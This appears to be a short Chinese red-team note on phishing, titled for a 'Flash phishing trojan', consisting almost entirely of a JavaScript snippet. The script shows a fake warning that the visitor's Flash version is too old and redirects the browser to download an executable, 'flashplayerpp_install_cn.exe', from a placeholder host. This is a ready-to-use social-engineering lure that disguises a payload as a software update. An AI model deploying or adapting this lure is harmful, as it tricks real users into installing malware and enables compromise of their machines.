 # Red Team 钓鱼

##### Flash 钓鱼马

```
var urlencode ="https%3A%2F%2Fwww.XXX.com%2Fflashplayerpp_install_cn.exe";
var url = decodeURIComponent(urlencode);
alert("您的Flash版本过低，尝试安装新版后访问该页面!");
window.location = ""+url+"";
```
